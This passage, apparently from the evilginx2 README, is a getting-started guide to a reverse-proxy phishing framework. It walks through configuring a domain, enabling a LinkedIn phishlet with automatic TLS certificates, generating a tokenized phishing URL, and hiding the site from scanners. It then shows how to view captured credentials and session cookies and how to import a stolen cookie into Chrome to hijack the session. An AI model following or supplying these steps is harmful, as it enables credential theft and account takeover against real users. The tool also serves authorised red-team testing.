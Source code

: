 You should see **evilginx2** logo with a prompt to enter commands. Type `help` or `help <command>` if you want to see available commands or more detailed information on them.

## Getting started

To get up and running, you need to first do some setting up.

At this point I assume, you've already registered a domain (let's call it `yourdomain.com`) and you set up the nameservers (both `ns1` and `ns2`) in your domain provider's admin panel to point to your server's IP (e.g. 10.0.0.1):
```
ns1.yourdomain.com = 10.0.0.1
ns2.yourdomain.com = 10.0.0.1
```

Set up your server's domain and IP using following commands:
```
config domain yourdomain.com
config ip 10.0.0.1
```

Now you can set up the phishlet you want to use. For the sake of this short guide, we will use a LinkedIn phishlet. Set up the hostname for the phishlet (it must contain your domain obviously):
```
phishlets hostname linkedin my.phishing.hostname.yourdomain.com
```

And now you can `enable` the phishlet, which will initiate automatic retrieval of LetsEncrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```
phishlets enable linkedin
```

Your phishing site is now live. Think of the URL, you want the victim to be redirected to on successful login and get the phishing URL like this (victim will be redirected to `https://www.google.com`):
```
phishlets get-url linkedin https://www.google.com
```

Running phishlets will only respond to tokenized links, so any scanners who scan your main domain will be redirected to URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid tokenized phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```
sessions <id>
```

The captured session cookie can be copied and imported into Chrome browser, using [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.
